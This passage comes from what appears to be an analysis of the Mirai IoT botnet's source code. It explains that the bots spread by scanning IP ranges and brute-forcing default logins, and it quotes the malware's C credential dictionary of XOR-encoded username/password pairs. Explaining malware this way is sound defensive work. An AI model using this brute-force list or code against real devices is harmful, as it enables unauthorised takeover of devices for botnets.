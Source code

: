 With this, we can anticipate what to expect in the scripts within each directory.

## Multiplication and Invasion

The question that remains is: How are the devices infected? How do the bots reproduce? What's the tactic, what's the big exploit that no one could imagine? Well, it's nothing incredible, not a firmware zero-day or anything like that; the malware simply takes advantage of people's innocence and irresponsibility. The bots themselves infect other devices, performing a large-scale IP scan, looking for devices with default or commonly known usernames and passwords (e.g., admin/admin). It's a dictionary-based brute-force attack, and the dictionary provided is as follows:

```c
    add_auth_entry("\x50\x4D\x4D\x56", "\x5A\x41\x11\x17\x13\x13", 10);                     // root     xc3511
    add_auth_entry("\x50\x4D\x4D\x56", "\x54\x4B\x58\x5A\x54", 9);                          // root     vizxv
    add_auth_entry("\x50\x4D\x4D\x56", "\x43\x46\x4F\x4B\x4C", 8);                          // root     admin
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x43\x46\x4F\x4B\x4C", 7);                      // admin    admin
    add_auth_entry("\x50\x4D\x4D\x56", "\x1A\x1A\x1A\x1A\x1A\x1A", 6);                      // root     888888
    add_auth_entry("\x50\x4D\x4D\x56", "\x5A\x4F\x4A\x46\x4B\x52\x41", 5);                  // root     xmhdipc
    add_auth_entry("\x50\x4D\x4D\x56", "\x46\x47\x44\x43\x57\x4E\x56", 5);                  // root     default
    add_auth_entry("\x50\x4D\x4D\x56", "\x48\x57\x43\x4C\x56\x47\x41\x4A", 5);              // root     juantech
    add_auth_entry("\x50\x4D\x4D\x56", "\x13\x10\x11\x16\x17\x14", 5);                      // root     123456
    add_auth_entry("\x50\x4D\x4D\x56", "\x17\x16\x11\x10\x13", 5);                          // root     54321
    add_auth_entry("\x51\x57\x52\x52\x4D\x50\x56", "\x51\x57\x52\x52\x4D\x50\x56", 5);      // support  support
    add_auth_entry("\x50\x4D\x4D\x56", "", 4);                                              // root     (none)
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x52\x43\x51\x51\x55\x4D\x50\x46", 4);          // admin    password
    add_auth_entry("\x50\x4D\x4D\x56", "\x50\x4D\x4D\x56", 4);                              // root     root
    add_auth_entry("\x50\x4D\x4D\x56", "\x13\x10\x11\x16\x17", 4);                          // root     12345
    add_auth_entry("\x57\x51\x47\x50", "\x57\x51\x47\x50", 3);                              // user     user
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "", 3);                                          // admin    (none)
    add_auth_entry("\x50\x4D\x4D\x56", "\x52\x43\x51\x51", 3);                              // root     pass
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x43\x46\x4F\x4B\x4C\x13\x10\x11\x16", 3);      // admin    admin1234
    add_auth_entry("\x50\x4D\x4D\x56", "\x13\x13\x13\x13", 3);                              // root     1111
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x51\x4F\x41\x43\x46\x4F\x4B\x4C", 3);          // admin    smcadmin
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x13\x13\x13\x13", 2);                          // admin    1111
    add_auth_entry("\x50\x4D\x4D\x56", "\x14\x14\x14\x14\x14\x14", 2);                      // root     666666
    add_auth_entry("\x50\x4D\x4D\x56", "\x52\x43\x51\x51\x55\x4D\x50\x46", 2);              // root     password
    add_auth_entry("\x50\x4D\x4D\x56", "\x13\x10\x11\x16", 2);                              // root     1234
    add_auth_entry("\x50\x4D\x4D\x56", "\x49\x4E\x54\x13\x10\x11", 1);                      // root     klv123
```